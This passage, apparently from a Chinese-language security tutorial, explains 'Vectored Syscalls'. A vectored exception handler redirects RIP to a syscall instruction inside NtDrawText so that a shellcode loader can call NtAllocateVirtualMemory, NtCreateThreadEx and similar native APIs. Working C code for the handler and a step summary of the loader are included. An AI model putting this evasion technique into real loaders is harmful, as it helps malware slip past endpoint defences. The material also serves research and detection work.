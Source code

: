 ```plain
// Global variable to store the address of the syscall instruction
ULONG_PTR g_syscall_addr = 0x00;
```

最后，使用 `exception_ptr` 将内存地址（指向 NtDrawText 的 syscall stub 中的 syscall 指令）传递到 VEH 函数 `PvectoredExceptionHandler` 中的 rip 寄存器\`

```plain
// Vectored Exception Handler function
LONG CALLBACK PvectoredExceptionHandler(PEXCEPTION_POINTERS exception_ptr) {
    // Check if the exception is an access violation
    if (exception_ptr->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) {
        // Modify the thread's context to redirect execution to the syscall address
        // Copy RCX register to R10
        exception_ptr->ContextRecord->R10 = exception_ptr->ContextRecord->Rcx;

        // Copy RIP (Instruction Pointer) to RAX (RIP keeps SSN --> RAX keeps SSN)      
        exception_ptr->ContextRecord->Rax = exception_ptr->ContextRecord->Rip;

        // Set RIP to global address (set syscalls address retrieved from NtDrawText to RIP register)       
        exception_ptr->ContextRecord->Rip = g_syscall_addr;

        // Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
}
```

```plain
// Set RIP to the syscall address for execution
exception_ptr->ContextRecord->Rip = g_syscall_addr;
```

提醒一下：当尝试通过 SSN 初始化原生 API 时，例如 NtAllocateVirtualMemory，我们已经能够通过访问冲突异常专门触发向量异常处理程序，并实现将 SSN 0x18 转移到 rip 或 rax 寄存器。由于我们现在在本机 API NtDrawText 的上下文中拥有了 syscall 指令的有效内存地址，因此我们最终可以通过向量异常处理执行原生 API NtAllocateVirtualMemory 的系统调用。

如上所述，此过程将重复进行，直到在抛出 EXCEPTION\_ACCESS\_VIOLATION、处理并最终执行 shellcode 后，shellcode 加载器中使用的或通过 SSN 启动的所有本机 API 都分别传递给向量异常处理函数。

## 总结

因此，我们现在有了通过向量化处理（Vectored Syscalls）使用系统调用来执行 shellcode 加载器上下文中使用的原生 API 的基础。以下是代码中主要进程的粗略总结。

-   `PVECTORED_EXCEPTION_HANDLER`用于定义向量异常处理程序函数 `PvectoredExceptionHandler`。
-   在 `PvectoredExceptionHandler` 函数中，我们定义了异常代码，例如 `EXCEPTION_ACCESS_VIOLATION`，它将触发对向量异常处理程序的传递。
-   在 `PvectoredExceptionHandler` 函数中，我们定义了访问 `rcx、r10、rax、rip` 寄存器所需的指针。
-   我们特意触发了在 VEH 函数中定义为异常代码的`EXCEPTION_ACCESS_VIOLATION`。
-   `EXCEPTION_ACCESS_VIOLATION`是通过尝试启动本机 API 来触发的，例如通过 `SSN` 的 `NtAllocateVirtualMemory`。
-   `SSN` 被传递到 `rip` 寄存器，而 rip 寄存器又被传递到 VEH 函数中的 `rax` 寄存器。
-   Windows API `GetModuleHandleA` 用于访问 `ntdll.dll` 内存。
-   我们还使用 `GetProcAddress` 访问 `ntdll.dll` 中任何原生 API 的基址（例如 `NtDrawText`）。
-   `FindSyscallAddr` 函数使用 while 循环执行操作码比较，以在原生 API 的 sycall stub（例如 `NtDrawText`）中查找 `syscall` 指令的内存地址。
-   `syscall` 指令的内存地址存储在全局变量 `g_syscall_addr` 中，并传递给 VEH 函数中的 `rip` 寄存器。
-   然后，`syscall`由原生 API 的注册好的 VEH 函数执行，例如 `NtAllocateVirtualMemory`。
-   对执行 shellcode 所需的任何其他必需的原生 API 重复该过程，例如 `NtWriteVirtualMemory、NtProtectVirtualMemory、NtCreateThreadEx` 和 `NtWaitForSingleObject`。
